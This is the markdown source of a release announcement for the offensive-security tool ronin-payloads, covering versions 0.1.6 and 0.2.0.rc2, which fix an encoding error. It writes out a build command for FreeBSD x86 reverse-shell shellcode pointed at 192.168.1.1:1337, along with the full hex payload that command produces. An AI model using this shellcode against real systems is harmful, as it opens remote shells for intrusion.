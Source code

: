 ```yaml
---
layout: post
title: ronin-payloads 0.1.6 and 0.2.0.rc2 released
author: postmodern
tags:
  - ronin-payloads
  - bugfixes
---
```


[ronin-payloads][ronin-payloads] [0.1.6][ronin-payloads-0.1.6] and
[0.2.0.rc2][ronin-payloads-0.2.0.rc2] have been released to fix an
`incompatible character encodings: UTF-8 and ASCII-8BIT` exceptions when
building shellcode payloads with certain IP addresses or port numbers. 

### Before

```
$ ronin-payloads build shellcode/freebsd/x86/reverse_shell -p host=192.168.1.1 -p port=1337 --format hex
ronin-payloads build: /usr/local/share/gems/gems/ronin-payloads-0.1.5/lib/ronin/payloads/builtin/shellcode/freebsd/x86/reverse_shell.rb:55:in `build': incompatible character encodings: UTF-8 and ASCII-8BIT (Encoding::CompatibilityError)
```

### After

After updating, all shellcode payloads should now build without any issues:

```
$ ronin-payloads build shellcode/freebsd/x86/reverse_shell -p host=192.168.1.1 -p port=1337 --format hex
1\xc0Pj\x01j\x02\xb0aP\xcd\x80\x89\xc2h\xc0\xa8\x01\x01fh\x059fh\x01\x02\x89\xe1j\x10QR1\xc0\xb0bP\xcd\x801\xc9QR1\xc0\xb0ZP\xcd\x80\xfe\xc1\x80\xf9\x03u\xf01\xc0Ph//shh/bin\x89\xe3PTS\xb0;P\xcd\x80
```

## How To Update

### Gems

To only update [ronin-payloads] to [0.1.6][ronin-payloads-0.1.6], simply run:

```shell
gem update ronin-payloads
```

If you are participating in the [Ronin 2.1.0 Open Beta], you can update to
[ronin-payloads][ronin-payloads] [0.2.0.rc2][ronin-payloads-0.2.0.rc2] by
running:

```shell
gem update ronin-payloads --pre
```

### Docker

{% include docker_update.md %}

If you are participating in the [Ronin 2.1.0 Open Beta], you can pull down the
updated `roninrb/ronin:2.1.0.rc1.2` docker image:

```shell
$ docker pull roninrb/ronin:2.1.0.rc1.2
$ docker run --rm -it roninrb/ronin:2.1.0.rc1.2
root@4dfc260a8be5:/# ronin-payloads -V
ronin-payloads 0.2.0.rc2
```

### Snap

{% include snap_update.md %}

[Ronin 2.1.0 Open Beta]: /blog/2024/06/24/announcing-the-ronin-2-1-0-open-beta.html

[ronin-payloads]: https://github.com/ronin-rb/ronin-payloads#readme
[ronin-payloads-0.1.6]: https://github.com/ronin-rb/ronin-payloads/releases/tag/v0.1.6
[ronin-payloads-0.2.0.rc2]: https://github.com/ronin-rb/ronin-payloads/compare/v0.2.0.rc1...v0.2.0.rc2
